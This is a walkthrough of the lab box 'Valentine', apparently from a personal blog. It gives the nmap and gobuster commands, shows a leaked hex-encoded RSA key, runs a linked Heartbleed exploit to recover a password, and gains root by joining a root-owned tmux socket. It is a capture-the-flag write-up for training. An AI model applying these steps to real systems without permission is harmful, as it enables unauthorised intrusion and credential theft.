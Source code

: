 ```yaml
---
layout: post
title: "HTB-Valentine"
categories: HTB-Walkthrough
---
```



![valentine](/assets/img/valentine/valentine1.png)


Valentine is another OSCP-like box from the HTB 'retired' archive.

As always, we start with nmap.

<h3>Nmap</h3>

`nmap -sV -Pn --min-rate 10000 -p- 10.10.10.79 |tee -a val.txt`

```

Nmap scan report for 10.10.10.79
Host is up (0.12s latency).
Not shown: 34526 filtered ports, 31006 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```



<hr width="250" size="6">


Checking out the website on port80 we are greeted with a picture.

![omg-pic](/assets/img/valentine/valentine-pic.png)

The source tells us its called 'omg.jpg', I download it, just incase there's some steganography at play here.
It's quite likely that the picture is just a hint at 'heartbleed', a well known https vulnerability, which may come into play on the port443.
Before rushing to that port, its worth enumerating the directories here with `gobuster`.

```
gobuster dir -u http://10.10.10.79/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php,.txt,.sh
```

Interesting results:

```

/dev (Status: 301)
/encode (Status: 200)
/encode.php (Status: 200)
/decode (Status: 200)
/decode.php (Status: 200)
/omg (Status: 200)

```

The /dev page is a directory with some interesting contents.

![dev](/assets/img/valentine/valentine-dev.png)


The 'notes' link takes us to a todo list.

![notes](/assets/img/valentine/valentine-notes.png)

It mentions the decode and encode pages, found by gobuster.

The other page 'hype_key' looks like its hex encoded.

I use wget to pick up the key...

`wget http://10.10.10.79/dev/hype_key`

We can decode it with the `xxd` command.

```
cat hype_key | xxd -r -p
```


Using an online hex to text converter we find that its a private rsa key.

![hextotext](/assets/img/valentine/valentine-hextotext.png)


<hr width="250" size="6">


The https port, besides the expected alerts about insecure certificates, takes us again to omg.jpg.

```
gobuster dir -u https://10.10.10.79/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php,.txt,.sh -k
```


<h3>Heartbleed</h3>


I found a simple [heartbleed.py](https://gist.githubusercontent.com/eelsivart/10174134/raw/8aea10b2f0f6842ccff97ee921a836cf05cd7530/heartbleed.py) exploit on github that works well....

It may need to be executed a number of times, until you see something interesting.

`python heartbleed.py 10.10.10.79 -v`


```
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==......].......7....~
```

Then we can decode it.

```
echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" |base64 -d
heartbleedbelievethehype
```

It looks like its the password for the id_rsa we've picked up.


<hr width="250" size="6">

Remember to do `chmod 600 id_rsa` to set the correct permissions on the private key file.

I tried `ssh -i id_rsa root@10.10.10.79` but it didn't work, 
It took a bit of thought before I tried the username `hype`

```
ssh -i id_rsa hype@10.10.10.79
```

The password `heartbleedbelievethehype` worked, and I got user-shell.


<hr width="250" size="6">


Looking at the bash history is fruitful, you should always do `ls -la` in the home folder, and if
.bash_history is not redirected to `2>/dev/null` then it may be worth checking early.

![bash-history](/assets/img/valentine/valentine-bash-history.png)


Checking the running processes, we can see that there's a `tmux` session still running.

```
hype@Valentine:~$ ps aux |grep tmux
root       1024  0.0  0.1  26416  1672 ?        Ss   02:21   0:03 /usr/bin/tmux -S /.devs/dev_sess
hype       5769  0.0  0.0  13576   920 pts/0    S+   05:23   0:00 grep --color=auto tmux
```


We can simply rejoin this session and get root privileges.

```
/usr/bin/tmux -S /.devs/dev_sess
```

Easy to get flags...

```
root@Valentine:/home/hype# cat Desktop/user.txt
e6xxxxxxxxxxxxxxxxxxxxxxxxxxxx50
root@Valentine:/home/hype# cat /root/root.txt
f1xxxxxxxxxxxxxxxxxxxxxxxxxxxxb2
root@Valentine:/home/hype# 
```

Quick roots are always amazing, demonstrating a catastrophic error, misconfiguration and whatnot.


:)






